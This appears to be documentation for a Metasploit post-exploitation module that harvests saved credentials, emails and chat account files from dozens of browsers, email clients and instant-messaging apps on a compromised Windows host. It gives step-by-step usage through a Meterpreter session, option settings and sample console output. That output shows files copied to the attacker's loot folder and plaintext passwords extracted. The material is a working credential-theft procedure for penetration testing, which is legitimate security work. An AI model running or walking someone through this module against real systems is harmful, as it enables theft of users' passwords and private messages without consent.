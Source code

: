 ## Module Description

This post-exploitation module gathers artifacts from end users systems.

Artifacts include 13 Browers, 12 IM (chat) applications, 6 Email clients and 1 Game
These artiacts and then scraped for credentials (usernames/passwords) and custom regular expressions

6 Email clients:
Incredimail, Outlook, Opera Mail, PostBox Mail, Mozilla Thunderbird Mail, Windows Live Mail

12 IM (chat):
AIM (Aol Instant Messaging), Digsby, GaduGadu, ICQ, Miranda, Nimbuzz, Pidgen, QQ (Chinese), Skype, Tango, Tlen.pl (Polish), Trillian, Viber, xChat

1 Game:
Xfire

13 Browser:
Avant, Comodo, CoolNovo, Chrome, FireFox, Flock, IE, K-Meleon, Maxthon, Opera, SRware, Safari, SeaMonkey

## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/packrat_credentials
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications



## Options 'APPLICATIONS'

Users can enter APPLICATIONS to extract from example output shown below for email service incredimail

msf post(windows/gather/credentials/packrat_credentials) > set SESSION 1
SESSION => 1
msf post(windows/gather/credentials/packrat_credentials) > set APPLICATION incredimail
APPLICATION => incredimail
msf post(windows/gather/credentials/packrat_credentials) > exploit

[*] Filtering based on these selections:
[*] APPCATEGORY: All, APPLICATION: Incredimail, ARTIFACTS: All

[*] Incredimail's Msg.iml file found
[*] Downloading C:\Users\student\AppData\Local\IM\Identities\{751CBA0D-062E-4661-A2FC-DC4AB5C0CE14}\Message Store\Messages\1\{066C0401-AB3B-4D9D-99E2-F3A0ED06AD84}\msg.iml
[*] Incredimail Msg.iml downloaded (IncrediMail sent and received emails)
[+] File saved to:  /root/.msf4/loot/20190419180935_default_192.168.201.80_incredimailmsg.i_256366.iml

[*] File with credentials saved:  /root/.msf4/loot/20190419180935_default_192.168.201.80_msg.imlCREDENTIA_270085.iml
[*] Downloading C:\Users\student\AppData\Local\IM\Identities\{751CBA0D-062E-4661-A2FC-DC4AB5C0CE14}\Message Store\Messages\1\{FA4CE6FD-C88E-4BD8-AF51-425A27317D79}\msg.iml
[*] Incredimail Msg.iml downloaded (IncrediMail sent and received emails)
[+] File saved to:  /root/.msf4/loot/20190419180935_default_192.168.201.80_incredimailmsg.i_909151.iml

[+] password:incredimail_password89!


## Options 'APPCATAGORY'

the user can specify what type of artifacts to extrac e.g. Emails

msf post(windows/gather/credentials/updated_packrat) > set APPCATEGORY chats 
APPCATEGORY => chats
msf post(windows/gather/credentials/updated_packrat) > run

[*] Filtering based on these selections:
[*] APPCATEGORY: Chats, APPLICATION: All, ARTIFACTS: All
[-] Unexpected Windows error 1332
[*] Pidgen's Accounts.xml file found
[*] Downloading C:\Users\student\AppData\Roaming\.purple\accounts.xml
[*] Pidgen Accounts.xml downloaded (Pidgen's saved Username & Passwords)
[+] File saved to:  /root/.msf4/loot/20190419182347_default_192.168.201.80_pidgenaccounts.x_471388.xml

[+] <name>Pidgen_User44</name>
[+] <password>tiaspbiqe2r</password>
[+] <alias>project_pidgen</alias>
[*] File with credentials saved:  /root/.msf4/loot/20190419182347_default_192.168.201.80_accounts.xmlCRED_543101.xml
[*] Pidgen's *.html file found
[*] PackRat credential sweep Completed. Check for artifacts and credentials in Loot
[*] Post module execution completed


## Options 'REGEX'
users can set their own regular expressions exmple below shows password:.* being seearched for 


msf post(windows/gather/credentials/updated_packrat) > set REGEX password:.*
REGEX => (?-mix:password:.*)
msf post(windows/gather/credentials/updated_packrat) > run

[*] Filtering based on these selections:
[*] APPCATEGORY: All, APPLICATION: All, ARTIFACTS: All
[*] Windowlivemail's *.oeaccount file found
[*] Incredimail's Msg.iml file found
[*] Downloading C:\Users\student\AppData\Local\IM\Identities\{751CBA0D-062E-4661-A2FC-DC4AB5C0CE14}\Message Store\Messages\1\{066C0401-AB3B-4D9D-99E2-F3A0ED06AD84}\msg.iml
[*] Incredimail Msg.iml downloaded (IncrediMail sent and received emails)
[+] File saved to:  /root/.msf4/loot/20190419182744_default_192.168.201.80_incredimailmsg.i_855680.iml

[+] To:NewIncrediMailMember
[+] From:"IncrediMail"<incredimail@incredimail.com>
[*] File with credentials saved:  /root/.msf4/loot/20190419182745_default_192.168.201.80_msg.imlCREDENTIA_705350.iml
[*] Downloading C:\Users\student\AppData\Local\IM\Identities\{751CBA0D-062E-4661-A2FC-DC4AB5C0CE14}\Message Store\Messages\1\{FA4CE6FD-C88E-4BD8-AF51-425A27317D79}\msg.iml
[*] Incredimail Msg.iml downloaded (IncrediMail sent and received emails)
[+] File saved to:  /root/.msf4/loot/20190419182745_default_192.168.201.80_incredimailmsg.i_585117.iml

[+] Password
[+] password:incredimail_password89!


## Options VERBOSE
by default verbose is turned off, when turned on the module will show information on files which arent extracted and provide descriptions of what credentials are being found.

msf post(windows/gather/credentials/updated_packrat) > set verbose 1
verbose => true
msf post(windows/gather/credentials/updated_packrat) > set APPLICATION pidgen
APPLICATION => pidgen
msf post(windows/gather/credentials/updated_packrat) > run

[*] Filtering based on these selections:
[*] APPCATEGORY: All, APPLICATION: Pidgen, ARTIFACTS: All
[-] Unexpected Windows error 1332
[*] Searching for Pidgen's Accounts.xml files in 's user directory...
[-] Pidgen's Accounts.xml not found in 's user directory

[*] Searching for Pidgen's Accounts.xml files in student's user directory...
[*] Pidgen's Accounts.xml file found
[*] Downloading C:\Users\student\AppData\Roaming\.purple\accounts.xml
[*] Pidgen Accounts.xml downloaded (Pidgen's saved Username & Passwords)
[+] File saved to:  /root/.msf4/loot/20190419183047_default_192.168.201.80_pidgenaccounts.x_891221.xml

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <name>Pidgen_User44</name>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <password>tiaspbiqe2r</password>
[*] Searches for Identity
[+] <alias>project_pidgen</alias>


## Options 'Store loot'
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files.

